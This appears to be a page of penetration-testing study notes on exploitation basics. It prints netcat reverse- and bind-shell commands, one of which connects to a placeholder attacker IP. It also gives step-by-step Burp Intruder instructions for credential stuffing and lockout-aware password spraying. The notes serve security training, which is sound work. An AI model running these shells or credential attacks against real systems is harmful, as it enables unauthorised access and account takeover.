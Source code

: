 # Exploitation (Basics)

## Shells

### Reverse shell

![image](https://user-images.githubusercontent.com/96747355/175835538-b00ec472-e4b3-4688-b062-25d37837b8b1.png)  
Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
- The target connects back to us
- Example 
  - in our attacking machine we type `nc -nlvp 4444` (4444 is the port)
  - in our target we connect be. For instance in case of a linux based machine we can do `netcat ATTACKING-MACHINE-IP 4444 -e /bin/bash`

### Bind shell

![image](https://user-images.githubusercontent.com/96747355/175835567-7bb7a51d-7761-4cc8-983a-cc7087dacaac.png)  
Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
- We connect to the target
- Example
  - in our target we can do `nc -nlvp 4444 -e /bin/bash`
  - in our attacking machine we can do `nc TARGET-IP 4444`

## Payloads

![image](https://user-images.githubusercontent.com/96747355/175836279-e0f0e004-c75a-4d8e-b4de-9680e1b5306a.png)  
Source:[TCM Academy](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course)
- If one type of payload does not work we can try the other one

## Bruteforce attacks

- Check out how to use hydra [here](/Tools/passwords-tools.md#hydra)
- We can also use metasploit that has multiple modules for bruteforce attacks

## Credentials stuffing and password spraying

- Methodology
  - Use leaked creds found during the enumeration phase on the login portals found during the enumeration phase
-  The goal of credentials stuffing and password spraying is to taking these credentials and throwing them at a website
- We can use burp intruder for this
  - First we can see what we get when a login fails, and copy the string we get back
  - We send the login portal to intruder and we add the login and password as variables
  - We use a pitchfork attack
  - We make a grep-match on the string previously copied 
  - Then in the payloads we take the list of users for the variable that corresponds to user and the list of passwords for the one that corresponds to the password. And then we just launch the attack.
  - In the results we will see the ones that are not valid with our grep match. We can also check the response (301 is redirect for example) and the size of the paylaod (if it is really different in one of the results
- Password spraying: We can also try an attack with one password and try out multiple usernames
  - Caution here, checkout prior to your engagement if a lockout is in place how many tried before being locked out. When we know this we can then setup our attack to try something every hour or so.

## Resources

{% embed url="https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/" %}Hacking Tutorials{% endembed %}
{% embed url="https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course" %} Practical Ethical Hacking - TCM Security {% endembed %}
